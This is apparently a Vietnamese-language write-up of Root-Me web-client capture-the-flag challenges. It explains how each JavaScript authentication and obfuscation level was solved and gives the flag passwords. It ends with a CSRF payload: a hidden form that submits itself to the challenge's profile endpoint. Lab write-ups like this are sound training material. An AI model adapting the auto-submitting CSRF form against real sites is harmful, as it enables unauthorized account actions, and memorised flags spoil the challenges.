 ### Javascript - Authentication:https:http://challenge01.root-me.org/web-client/ch9/
password:`sh.org`

đầu tiên chúng ta coi source của nó: gợi ý của nó là `Javascript - Authentication` 

<img src="http://image.prntscr.com/image/4ee663b4801d4572a4419bd89e1deb92.png">

sau khi vào đoan js : ta thấy luôn password

<img src="http://image.prntscr.com/image/1689c5870fec47948f3e067b7a302f20.png">

### Javascript - Source: http://challenge01.root-me.org/web-client/ch1/ch1.html

password: `123456azerty`
câu này thuộc dạng khoai : chỉ cần coi source là có tất cả: 

<img src="http://image.prntscr.com/image/b7ad883e944644a2a961ec2de73d8083.png">

### Javascript - Authentication 2 :http://challenge01.root-me.org/web-client/ch11/
password:`HIDDEN`

câu này vào thẳng vấn đề, vào đoạn js như câu 2:
<img src="http://image.prntscr.com/image/395c50ed82aa4afd88cf7c525daada4e.png">
nhìn vào đoạn js , ta thấy password là phần tử thứ 2 của biến thelists!

###  Javascript - Obfuscation 1: http://challenge01.root-me.org/web-client/ch4/ch4.html:

password:`cpasbiendurpassword`

câu này có tăng level lên chút :v như mấy cái trước đầu tiên phải coi source của nó , 
<img src="http://image.prntscr.com/image/da801b784ee445b6a5e32f11334bf0c0.png">

- Thoạt nhìn tưởng chuối vì chữ pass to đung đập vào mắt :))! **nhưng sai** pass là 1 biến để truyền vào lệnh `unescape`.Được cái không học js nên chả biết cái lệnh quái quỉ này, sợt gu gồ liền , vào web `w3school` .Lệnh này có chức năng Mã hóa và giải mã một chuỗi !Vào phần ví dụ của lệnh này , thay phần biến str_esc bằng phần pass trong source và nhấn run : có ngay pass :D

<img src="http://image.prntscr.com/image/551b1f0aab004a2f8c562cc4a5623635.png"> 

###Javascript - Obfuscation 2:http://challenge01.root-me.org/web-client/ch12/ch12.html
password:`hDufjdki156` 
- chú ý phần gợi ý và phần source: gợi ý là : Going down 3 floors..... đi 3 tầng :)) , nhìn vào source thấy đoạn pass! có 3 hàm lồng nhau ! chính nó đấy, chỉ cần giải đoạn đó là có pass!

giải đoạn đầu tiên, hàm `unescape` y chang bài trên , coppy rồi pass vào coi nó ra cái gì

<img src="http://image.prntscr.com/image/bb9c274a2f064338a7118d7f104e8f72.png">

cái hàm `String.fromCharCode` cái này mới , hỏi bác gu gồ thôi :

`String.fromCharCode` : fromCharCode(): chuyễn mã Unicode thành ký tự

ví dụ:

document.write(String.fromCharCode(72,69,76,76,79) );//HELLO

ở bài này , chỉ cần thay vào là ra pass thôi :D! 

<img src="http://image.prntscr.com/image/fd226593f9c345f183bf3ec77361f3ab.png">
$ csrf
```

<form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">

<label>Username:</label>
		
		<input type="hidden" name="username" value="b">
	
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input type="hidden" name="status" value="on" >




</from>

<script>document.forms["csrf"].submit()</script>// auto submit


```

